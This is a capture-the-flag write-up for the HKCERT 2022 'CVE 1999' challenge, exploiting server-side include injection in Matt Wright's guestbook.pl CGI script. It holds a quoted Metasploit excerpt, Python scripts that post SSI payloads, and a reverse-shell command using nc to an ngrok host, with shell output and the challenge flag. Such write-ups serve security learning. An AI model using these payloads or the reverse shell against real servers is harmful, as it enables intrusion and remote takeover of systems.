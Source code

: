 # CVE 1999

## Overview

- Overall difficulty for me (From 1-10 stars): ★★★★★★★☆☆☆

- Challenge difficulty: ★★☆☆☆

## Background

[Old news](https://www-info-gov-hk.translate.goog/gia/general/200002/24/0224258.htm?_x_tr_sl=zh-TW&_x_tr_tl=en&_x_tr_hl=en-US&_x_tr_pto=wapp) is so existing

Web: [http://chal-a.hkcert22.pwnable.hk:28229/~matt/guestbook.html](http://chal-a.hkcert22.pwnable.hk:28229/~matt/guestbook.html) , [http://chal-b.hkcert22.pwnable.hk:28229/~matt/guestbook.html](http://chal-b.hkcert22.pwnable.hk:28229/~matt/guestbook.html)

Remark: The guestbook will be cleaned up per minute

## Find the flag

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/HKCERT-CTF-2022/images/Pasted%20image%2020221112231222.png)

In here, we can see this is a **guestbook which created by Matt Wright**.

**addguest.html:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/HKCERT-CTF-2022/images/Pasted%20image%2020221112231430.png)

**Also, we can send a POST request to `/~matt/cgi-bin/guestbook.pl`.**

![](https://github.com/siunam321/CTF-Writeups/blob/main/HKCERT-CTF-2022/images/Pasted%20image%2020221112231506.png)

**Let's use `searchsploit` to see is there any public exploits!**
```
┌──(root🌸siunam)-[~/ctf/HKCERT-CTF-2022/Web/CVE-1999]
└─# searchsploit Matt Wright Guestbook
------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                           |  Path
------------------------------------------------------------------------- ---------------------------------
Matt Wright Guestbook 2.3.1 - Guestbook.pl Multiple HTML Injection Vulne | cgi/webapps/27594.txt
The Matt Wright Guestbook.pl - Arbitrary Command Execution (Metasploit)  | cgi/webapps/16914.rb
The Matt Wright Guestbook.pl 2.3.1 - Server-Side Include                 | cgi/webapps/9907.rb
------------------------------------------------------------------------- ---------------------------------
```

**Looks like it's vulnerable to Server-Side Include (SSI)!**

**We can use `searchsploit -m` to mirror the exploit script:**
```
┌──(root🌸siunam)-[~/ctf/HKCERT-CTF-2022/Web/CVE-1999]
└─# searchsploit -m 16914
```

**Snipped `16914.rb` exploit script:**
```ruby
	def exploit
		realname	= rand_text_alphanumeric(20)
		email		= rand_text_alphanumeric(20)
		city		= rand_text_alphanumeric(20)
		state		= rand_text_alphanumeric(20)
		country 	= rand_text_alphanumeric(20)

		sploit = Rex::Text.uri_encode("<!--#exec cmd=\"" + payload.encoded.gsub('"','\"') + "\"", 'hex-normal')

		req1 = send_request_cgi({
			'uri'     => datastore['URI'],
			'method'  => 'POST',
			'data'    => "realname=#{realname}&username=#{email}&city=#{city}&state=#{state}&country=#{country}&comments=#{sploit}",
		}, 25)

		req2 = send_request_raw({
			'uri'     => datastore['URIOUT'],
		}, 25)

	end
```

**Hmm... Looks like the `<!--#exec cmd="payload_here"` is the payload!**

**Let's write a simple python script to automate that!**
```py
#!/usr/bin/env python3

import requests
import string
import random
import sys
import urllib.parse

def main(payload):
	url = 'http://chal-a.hkcert22.pwnable.hk:28229/~matt/'
	payload = sys.argv[1]
	data = {
	'realname': ''.join(random.choices(string.ascii_letters, k=20)),
	'username': ''.join(random.choices(string.ascii_letters, k=20)),
	'url': ''.join(random.choices(string.ascii_letters, k=20)),
	'city': ''.join(random.choices(string.ascii_letters, k=20)),
	'state': ''.join(random.choices(string.ascii_letters, k=20)),
	'country': ''.join(random.choices(string.ascii_letters, k=20)),
	'comments': payload
}
	requests.post(url + 'cgi-bin/guestbook.pl', data=data)
	#requests.get(url + 'guestbook.html')

if __name__ == '__main__':
	if len(sys.argv) > 1:
		payload = sys.argv[1]
		main(payload)
	else:
		print(f'Usage: {sys.argv[0]} <payload>')
```

```
┌──(root🌸siunam)-[~/ctf/HKCERT-CTF-2022/Web/CVE-1999]
└─# python3 chal_automate.py '<!--#exec cmd="/bin/ls /"'
```

**Now, when you refresh the `guessbook.html` page, you should see all the files in the target machine!**

> Note1: Although I get the flag, I have no idea why the exploit sometimes work, sometimes didn't work.

> Note2: After the CTF, [Kaiziron](https://twitter.com/kaiziron) said that the reason why it happens is because this:

```
$value =~ s/<!--(.|\n)*-->//g;
```

> To get the payload working, we need to put `-->` on another field to close the payload.

**Correct payload:**
```py
#!/usr/bin/env python3

import requests
import string
import random
import sys
import urllib.parse

def main(payload):
	url = 'http://chal-a.hkcert22.pwnable.hk:28229/~matt/'
	payload = sys.argv[1]
	data = {
	'realname': ''.join(random.choices(string.ascii_letters, k=20)),
	'username': ''.join(random.choices(string.ascii_letters, k=20)),
	'url': ''.join(random.choices(string.ascii_letters, k=20)),
	'city': ''.join(random.choices(string.ascii_letters, k=20)),
	'state': ''.join(random.choices(string.ascii_letters, k=20)),
	'country': '-->',
	'comments': payload
}
	# Send the payload
	requests.post(url + 'cgi-bin/guestbook.pl', data=data)
	
	# Trigger the payload
	requests.get(url + 'guestbook.html')

if __name__ == '__main__':
	if len(sys.argv) > 1:
		payload = sys.argv[1]
		main(payload)
	else:
		print(f'Usage: {sys.argv[0]} <payload>')
```

- Reverse shell:

**Ngrok for port forwarding:**
```
┌──(root🌸siunam)-[~/ctf/HKCERT-CTF-2022/Web/CVE-1999]
└─# ngrok tcp 1337

Web Interface                 http://127.0.0.1:4040                                                        
Forwarding                    tcp://0.tcp.ap.ngrok.io:12434 -> localhost:1337
```


**Setup a `nc` listener:**
```
┌──(root🌸siunam)-[~/ctf/HKCERT-CTF-2022/Web/CVE-1999]
└─# nc -lnvp 1337
listening on [any] 1337 ...
```

**Send the payload:**
```
┌──(root🌸siunam)-[~/ctf/HKCERT-CTF-2022/Web/CVE-1999]
└─# python3 solve.py '<!--#exec cmd="nc 0.tcp.ap.ngrok.io 12434 -e /bin/bash"'
```

```
┌──(root🌸siunam)-[~/ctf/HKCERT-CTF-2022/Web/CVE-1999]
└─# nc -lnvp 1337
listening on [any] 1337 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 59618
whoami;hostname;id
daemon
chal29-cve-1999-0
uid=1(daemon) gid=1(daemon) groups=1(daemon)

ls -lah /
[...]
-r--r--r--   1 root root   54 Oct 30 03:53 flag
[...]

cat /flag
hkcert22{DiDu_c0opy_others_FLags_or_c0rnment_brb_Tags}
```

We got the flag!

# Conclusion

What we've learned:

1. Exploiting Server-Side Include Vulnerability